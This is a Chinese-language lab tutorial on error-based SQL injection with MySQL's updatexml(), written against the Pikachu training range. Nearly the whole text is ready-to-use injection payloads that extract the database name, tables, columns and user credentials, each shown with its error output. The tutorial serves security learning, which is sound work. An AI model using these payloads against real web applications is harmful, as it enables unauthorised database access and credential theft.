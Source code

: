 # 报错注入

---

（本案例使用pikachu靶场）

报错显示限制一般为32位



## 判断注入

name='

name=' or 1=1

name=' or 1=2



## payload

```
name=' or updatexml(1,concat(0x7e,(注入语句或者函数),0x7e),0) or ' --
```

一般开头符号闭合，后面符号闭合或者注释符（-- ）注释后面语句，本次案例为or ’ 闭合后面

（报错注入查询的结果有限制 使用limit 第n个开始，只显示n个）

## 查询数据库信息

```
name=' or updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),0) or '
---
出现：（0x7e为~，使用database()查询当前使用的数据库名）如果后面显示不出来就单个单个的查询
XPATH syntax error: '~pikachu~kobe~D:/phpstudy/'
```



## 查询当前数据库的表（找users表）

```
name=' or updatexml(0,concat(0x7e,(select concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),0x7e),0)  or '   
---
出现：
XPATH syntax error: '~httpinfo~'
```





## 查询表字段 （找user表的字段）

```
name=' or updatexml(0,concat(0x7e,(select concat(column_name) FROM information_schema.columns WHERE table_schema=表名 limit 0,1),0x7e),0)  or '
---
出现：
XPATH syntax error: '~USER~'
```





## 查询表数据 （找user的用户名和密码）

```
name=' or updatexml(1,concat(0x7e,(select concat(字段名) from 表名 limit 0,1 ),0x7e),0) or '
---
出现：
XPATH syntax error: '~admin~'
```



